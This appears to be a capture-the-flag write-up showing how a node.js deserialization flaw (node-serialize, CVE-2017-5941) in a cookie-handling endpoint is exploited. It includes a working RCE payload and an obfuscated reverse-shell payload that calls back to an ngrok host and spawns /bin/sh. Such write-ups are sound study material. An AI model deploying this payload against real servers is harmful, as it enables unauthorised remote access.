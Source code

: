 ```yaml
---
description: node.js deserialization vulnerability leads to RCE.
---
```


# Sparta

## Problem

Spartanians are starting to lose their great power, help them move their objects and rebuild their Empire.

## Solution

In the given source code, we can see that the `/guest` endpoint deserializes the base 64 decoded `guest` cookie.

```javascript
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
       var str = new Buffer(req.cookies.guest, 'base64').toString();
       var obj = serialize.unserialize(str);
       if (obj.username) {
         res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
     var username = req.body.username 
     var country = req.body.country 
     var city = req.body.city
     var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
     res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
```

There is a well-known deserialization vulnerability in node.js that leads to RCE \([CVE-2017-5941](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)\).

By passing a serialized object like the following into `serialize.unserialize()`, we can achieve RCE.

```javascript
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('ls /', function(error, stdout, stderr) {
console.log(stdout) });\n }()"}
```

This relies on JavaScript's Immediately Invoked Function Expression \(IIFE\): notice the IIFE bracket after the function expression:

```javascript
function (){ ... }()
```

Now, we can execute a reverse shell payload within the function that would be fired when the data is deserialized. Using [nodejsshell.py,](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) we can craft such a payload.

In my case: `python nodejsshell.py 2.tcp.ngrok.io 13755` allowed me to generate a reverse shell payload for my ngrok tunnel.

![](../../.gitbook/assets/image%20%282%29.png)

Then, we can copy the output into the function body.

```javascript
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,50,46,116,99,112,46,110,103,114,111,107,46,105,111,34,59,10,80,79,82,84,61,34,49,51,55,53,53,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}';
serialize.unserialize(payload);
```

Once we tested that our payload works, we can encode the payload to base 64, and send it through the cookie header.

![](../../.gitbook/assets/image%20%286%29.png)

We obtain a reverse shell, which allows us to read the flag.

![](../../.gitbook/assets/image%20%283%29.png)

## References:

1. [https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
2. [https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

